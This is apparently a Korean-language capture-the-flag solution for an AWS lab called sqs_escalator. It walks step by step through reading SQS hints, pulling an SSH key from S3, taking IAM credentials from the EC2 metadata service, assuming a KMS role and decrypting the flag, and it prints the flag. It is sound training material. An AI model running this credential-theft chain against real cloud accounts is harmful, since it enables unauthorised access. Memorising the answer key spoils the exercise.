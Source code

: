 # [sqs_escalator] 모범 답안  

1. Terraform을 통해 생성된 Access Key와 Secret Key를 사용하여 AWS CLI 프로파일을 구성한다.  
```bash
aws configure --profile yejin
```

2. 설정이 올바르게 되었는지 확인한다.  
```bash
aws sts get-caller-identity --profile yejin
```

3. SQS 메시지를 수신하여 EC2 접속 정보, PEM 경로, 플래그 경로, AssumeRole 힌트를 획득한다.  
```bash
aws sqs receive-message \
  --queue-url <SQS_URL> \
  --profile yejin
```

4. PEM 키 파일을 S3에서 다운로드 후 SSH 접속을 시도한다.  
```bash
aws s3 cp s3://<bucket-name>/ec2-access.pem ./ec2-access.pem --profile yejin
chmod 400 ec2-access.pem

ssh -i ec2-access.pem ec2-user@<EC2_IP>
```

5. EC2 내부에서 메타데이터 서비스를 통해 IAM 역할 자격 증명을 탈취한다.  
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<EC2-ROLE-NAME>
```

6. 탈취한 자격 증명을 환경 변수로 등록한다.  
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
```

7. 암호화된 flag 파일을 S3에서 다운로드한다.  
```bash
aws s3 cp s3://<bucket-name>/flag.enc ./flag.enc
```

8. 복호화를 시도하나 실패한다.  
```bash
aws kms decrypt \
  --ciphertext-blob fileb://flag.enc \
  --output text --query Plaintext
```

9. AssumeRole을 수행하여 kmsReaderRole 권한을 획득한다.  
```bash
creds=$(aws sts assume-role \
  --role-arn arn:aws:iam::<account-id>:role/kmsReaderRole \
  --role-session-name attacker-session)

export AWS_ACCESS_KEY_ID=$(echo $creds | jq -r '.Credentials.AccessKeyId')
export AWS_SECRET_ACCESS_KEY=$(echo $creds | jq -r '.Credentials.SecretAccessKey')
export AWS_SESSION_TOKEN=$(echo $creds | jq -r '.Credentials.SessionToken')
```

10. 획득한 권한으로 다시 KMS 복호화를 시도하여 flag를 획득한다.  
```bash
aws kms decrypt \
  --ciphertext-blob fileb://flag.enc \
  --output text --query Plaintext | base64 -d
```

<br/><br/>
`flag` : FLAG{escalation_success_kms_flag}
